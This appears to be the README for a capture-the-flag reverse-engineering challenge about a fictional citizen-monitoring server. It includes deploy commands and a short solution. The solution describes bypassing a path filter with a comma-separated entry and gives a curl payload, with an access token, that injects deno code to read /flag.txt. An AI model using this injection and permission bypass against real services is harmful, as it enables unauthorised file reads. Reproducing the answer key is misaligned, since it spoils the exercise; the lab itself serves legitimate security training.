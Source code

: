 # rev | monitoring

## Information

Нам удалось вчёрную получить на руки некоторые из сервисов, встроенных в различные компоненты Megalith, но, к сожалению, только в бинарном виде. В частности, нам достался какой-то из серверов системы мониторинга за населением Metra Veehkim, может получиться как-нибудь разобраться с ним и выяснить, какие данные о нас собирают Арбалеты?

We've managed to (not entirely legally) get our hands on some of the services embedded into the differents components of Megalith, but, sadly, only as binaries. Specifically, we've got one of the servers of the Metra Veehkim citizen monitoring system, do you think it could perhaps somehow help us figure out what kind of data the Arbalests are collecting about us?

## Deploy

Need whale deployment.

```sh
cd deploy
docker compose -p rev-monitoring up --build -d
```

## Public

Provide zip file: [public/monitoring.zip](public/monitoring.zip).

## TLDR

Find source code at the end of the file (e.g using `rabin2 -zzz`), extract it, perform simple reverse engineering (as usual the obfuscation basically stores all strings in an array).

The app executes our code from the "cmd" parameter using deno, and you can specify the entry to read using the "entry" parameter:

```js
const command = Bun.spawn(
  ["/usr/bin/deno", "run", `--allow-read=./${entry}`, cmdPath],
  {
    stderr: "ignore",
    cwd: "entries",
    env: {},
  }
);
```

However, ".." is banned in entry, but you can simply specify a second path using a comma in order to get read access to the root.

```sh
curl http://localhost:1984 -i -H "Monitor-Access-Token: MEGALITH_MONITORING_SYSTEM_EZRVJJCQ4ET3W25BONANMPWPQSRV7JXE" --data-raw '{"cmd":"console.log(new TextDecoder().decode(Deno.readFileSync(\"/flag.txt\")))","entry":"/,/"}'
```

## Writeup (ru)

TODO

## Writeup (en)

TODO

## Domain

No

## Cloudflare

Yes

## Flag

Should be auto-generated by Whale.
